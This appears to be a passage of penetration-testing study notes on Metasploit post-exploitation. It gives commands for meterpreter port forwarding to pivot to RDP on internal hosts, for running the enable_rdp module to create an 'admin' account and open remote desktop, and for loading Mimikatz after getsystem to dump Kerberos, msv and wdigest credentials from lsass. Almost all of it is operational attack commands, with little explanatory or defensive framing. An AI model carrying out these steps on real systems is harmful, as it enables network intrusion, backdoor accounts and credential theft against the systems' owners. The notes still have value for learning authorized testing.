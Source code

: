 Can be used to pivot and access networks through the comrpomised machines that are otherwise inaccessible. This will allow us to relay to a local port that is not accessible remotely, such as RDP. 

```bash
portfwd add -l 3389 -p 3389 -r [target host]
# -l 3389 - local port listening and forwarded ; a port on your local machine
# -p 3389 - destination port on the target
# -r [target host] - target host by IP or hostname
# Lists all the tunnels
portfwd list 
# To remove a tunnel
portfwd delete -l 3389 -p 3389 -r [target host]
# To remove all tunnels
portfwd flush
# Initiate a remote desktop session local 3389 through the tunnel
rdesktop 127.0.0.1:3389
```

### Metasploit Post-exploitation

We can enable remote desktop using post-exploitation.  Lets use `post/windows/manage/enable_rdp`. 
Our starting point is a meterpreter shell with administrative privileges on a Windows system. 

```bash
# Background the meterpreter sessiom
background
# Activate enable_rdp module
use post/windows/manage/enable_rdp
set username admin 		# Create a new user name admin
set password password # Create a password 
set session 1					# Ony compatible with an active session
run
# Connect using remote desktop
rdesktop 10.11.1.109

# Shortcut way
run post/windows/manage/enable_rdp username=admin,password=password
```

### Meterpreter Mimikatz

In order to run Mimikatz and interact with the lsass process, the shell needs SYSTEM privileges. 
`getsystem` - Gain SYSTEM perms
Next we need to load the mimikatz script:
`load mimikatz` 
`help mimikatz` - see commands for the features of Mimikatz - reading passwords and memory

```bash
# Starting with Kerberos Meterpret Functions
kerberos # Retrieves kerberos credentials
msv 		 # Retrieves msv credentials
wdigest	 # Retrieves wdigest credentials
# mimikatz_command -f version
mimikatz_command -f help:: # Lists available mimikatz modules
mimikatz_command -f [Module Name]::
# Print options for sekurlsa
mimikatz_command -f sekurlsa::
# Since we retrieves credentials already with wdigest, can pass to sekurlsa
mimikatz_command -f sekurlsa::wdigest
```
